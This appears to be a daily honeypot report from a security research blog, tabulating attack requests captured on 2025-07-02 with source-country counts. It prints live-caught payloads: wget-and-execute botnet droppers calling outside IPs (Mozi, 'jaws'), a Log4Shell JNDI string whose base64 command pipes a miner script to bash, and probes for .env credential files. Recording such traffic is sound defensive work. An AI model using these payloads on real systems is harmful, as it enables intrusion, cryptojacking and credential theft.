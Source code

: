```yaml
---
title: "Report: 2025-07-02 "
date: 2025-07-02
desciption: "Report: 2025-07-02" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-02 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 30 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1568 requests were recorded during the day, originating from 3 different countries, with a peak of 634 requests coming from CH.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| BR               | Germany            |
| US               | Germany            |
| US               | Germany            |
| JP               | Germany            |
| US               | Germany            |
| CH               | Israel             |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                    |
|:--------------|:---------------------------------------------------------------------------------------------------------------------------|
| 103.98.37.182 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0      |
| 156.218.60.24 | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                   |
| 95.214.53.84  | GET /vpn/list_base_config.php?type=mod&parts=base_config&template=`wget+http://220.158.234.135/x/raisecom+-O-|sh` HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                  |
|----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 194 |                     2 | GET /dev/.env.aws HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 196 |                     2 | GET /dev/.env.BAK HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 199 |                     2 | GET /env/test.ini HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 201 |                     2 | GET /helpers/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 204 |                     2 | GET /dev/.env.crt HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 209 |                     2 | GET /keys/env.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 216 |                     2 | GET /core/.env.db HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 218 |                     2 | GET /dev/.env.bkp HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 219 |                     2 | GET /cypress/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 246 |                     2 | GET /t%28%27$%7B$%7Benv:NaN:-j%7Dndi$%7Benv:NaN:-:%7D$%7Benv:NaN:-l%7Ddap$%7Benv:NaN:-:%7D//46.8.231.224:3306/TomcatBypass/Command/Base64/ZXhwb3J0IEhPTUU9L3RtcDsgY3VybCAtcyAtTCBodHRwOi8vNDYuOC4yMzEuMjI0L3NjcmlwdHMvNHRoZXBvb2xfbWluZXIuc2ggfCBiYXNoIC1zOyB3Z2V0IC1xTy0gaHR0cDovLzQ2LjguMjMxLjIyNC9zY3JpcHRzLzR0aGVwb29sX21pbmVyLnNoIHwgYmFzaCAtcw==%7D%27%29 HTTP/1.1 |
| 264 |                     2 | GET /cgi-bin/index.html HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
| 330 |                     1 | GET /odinhttpcall1751449606 HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
| 331 |                     1 | GET /OdinHttpCall1751449606 HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
| 332 |                     1 | GET /Odin/http/call1751449606 HTTP/1.1                                                                                                                                                                                                                                                                                                                                   |
| 369 |                     1 | GET /admin/.env.2 HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 383 |                     1 | GET /database.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 384 |                     1 | GET /flask/env.py HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 385 |                     1 | GET /env/smtp.bak HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 388 |                     1 | GET /dev/.env.gcp HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 389 |                     1 | GET /dev/.env.key HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 391 |                     1 | GET /dev/.env.log HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 392 |                     1 | GET /dev/.env.new HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 393 |                     1 | GET /.env_session HTTP/1.1                                                                                                                                                                                                                                                                                                                                               |
| 406 |                     1 | GET /s/734323e21363e2932313e27353/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties HTTP/1.1                                                                                                                                                                                                                                                         |
| 409 |                     1 | GET /NadI HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
| 410 |                     1 | GET /I3kv HTTP/1.1                                                                                                                                                                                                                                                                                                                                                       |
| 436 |                     1 | GET http://whatismyip.akamai.com/ HTTP/1.1                                                                                                                                                                                                                                                                                                                               |
| 437 |                     1 | GET /odinhttpcall1751457181 HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
| 438 |                     1 | GET /OdinHttpCall1751457181 HTTP/1.1                                                                                                                                                                                                                                                                                                                                     |
| 439 |                     1 | GET /Odin/http/call1751457181 HTTP/1.1                                                                                                                                                                                                                                                                                                                                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   634 | CH                 |
|  1 |                   276 | US                 |
|  2 |                   143 | GB                 |
|  3 |                   129 | DE                 |
|  4 |                    57 | NL                 |
|  5 |                    48 | BG                 |
|  6 |                    46 | VN                 |
|  7 |                    30 | JP                 |
|  8 |                    22 | PL                 |
|  9 |                    18 | CA                 |
| 10 |                    17 | CN                 |
| 11 |                    17 | ZA                 |
| 12 |                    14 | RU                 |
| 13 |                    11 | SC                 |
| 14 |                    10 | DO                 |
| 15 |                     9 | LT                 |
| 16 |                     9 | BR                 |
| 17 |                     8 | RO                 |
| 18 |                     6 | AO                 |
| 19 |                     5 | UA                 |
| 20 |                     5 | GH                 |
| 21 |                     5 | IN                 |
| 22 |                     4 | SG                 |
| 23 |                     4 | KR                 |
| 24 |                     4 | HK                 |
| 25 |                     4 | BE                 |
| 26 |                     3 | IR                 |
| 27 |                     3 | ES                 |
| 28 |                     3 | NG                 |
| 29 |                     3 | PT                 |
| 30 |                     3 | KZ                 |
| 31 |                     2 | TR                 |
| 32 |                     2 | MN                 |
| 33 |                     2 | SE                 |
| 34 |                     2 | EE                 |
| 35 |                     2 | IE                 |
| 36 |                     2 | DZ                 |
| 37 |                     2 | BD                 |
| 38 |                     1 | EG                 |
| 39 |                     1 | IT                 |
| 40 |                     1 | FR                 |
| 41 |                     1 | HR                 |
